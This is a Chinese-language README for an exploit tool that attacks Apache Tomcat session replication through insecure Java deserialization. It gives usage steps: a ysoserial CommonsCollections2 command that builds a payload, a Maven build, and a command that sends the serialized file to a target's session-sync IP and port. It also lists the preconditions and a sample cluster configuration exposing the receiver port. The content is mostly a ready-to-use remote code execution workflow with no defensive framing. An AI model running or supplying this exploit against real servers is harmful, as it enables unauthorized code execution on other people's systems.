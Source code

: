 ### tomcat session 同步exp

1. tomcat session 同步的时候会使用反序列化，这里tomcat没有做白名单处理，存在任意反序列化的问题
2. tomcat session 同步会开启一个端口接受反序列化数据，例如下文tomcat-session同步配置的<Receiver>节点的port就是开启的端口



### 使用

1、使用ysoserial( https://github.com/frohoff/ysoserial.git) 生成payload
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "cmd /c notepad" > test.ser
```
2、构建本工程
```
mvn package
```
3、复制test.ser到本工程的目录下
```
java -jar tomcat-sesesion-syn-deserialization-1.0-SNAPSHOT-jar-with-dependencies.jar  -h ${同步session的ip} -p ${同步session的port} -f ${youre serialization file}
```

### 条件
1. tomcat启用了session同步
2. tomcat的classpath中存在可以序列化的利用链，比如commons-collections4

### tomcat-session同步配置
（conf/server.xml）：
```
<Engine>下面的配置放置到Engine节点下
        ...
        ...
	  <Cluster className="org.apache.catalina.ha.tcp.SimpleTcpCluster"  
                channelSendOptions="8">  
  
         <Manager className="org.apache.catalina.ha.session.DeltaManager"  
                  expireSessionsOnShutdown="false"  
                  notifyListenersOnReplication="true"/>  
  
         <Channel className="org.apache.catalina.tribes.group.GroupChannel">  
           <Membership className="org.apache.catalina.tribes.membership.McastService"  
                       address="228.0.0.4"  
                       port="45564"  
                       frequency="500"  
                       dropTime="3000"/>  
           <Receiver className="org.apache.catalina.tribes.transport.nio.NioReceiver"  
                     address="auto"  
                     port="4000"  
                     autoBind="100"  
                     selectorTimeout="5000"  
                     maxThreads="6"/>  
  
           <Sender className="org.apache.catalina.tribes.transport.ReplicationTransmitter">  
           <Transport className="org.apache.catalina.tribes.transport.nio.PooledParallelSender"/>  
           </Sender>  
           <Interceptor className="org.apache.catalina.tribes.group.interceptors.TcpFailureDetector"/>  
           <!--<Interceptor className="org.apache.catalina.tribes.group.interceptors.MessageDispatch15Interceptor"/>  -->
         </Channel>  
  
         <Valve className="org.apache.catalina.ha.tcp.ReplicationValve"  
                filter=""/>  
        <!-- <Valve className="org.apache.catalina.ha.session.JvmRouteBinderValve"/>  -->
  
         <Deployer className="org.apache.catalina.ha.deploy.FarmWarDeployer"  
                   tempDir="/tmp/war-temp/"  
                   deployDir="/tmp/war-deploy/"  
                   watchDir="/tmp/war-listen/"  
                   watchEnabled="false"/>  
  
         <!--<ClusterListener className="org.apache.catalina.ha.session.JvmRouteSessionIDBinderListener"/>  -->
         <ClusterListener className="org.apache.catalina.ha.session.ClusterSessionListener"/>  
       </Cluster>  
       ....
       ....
</Engine>
```
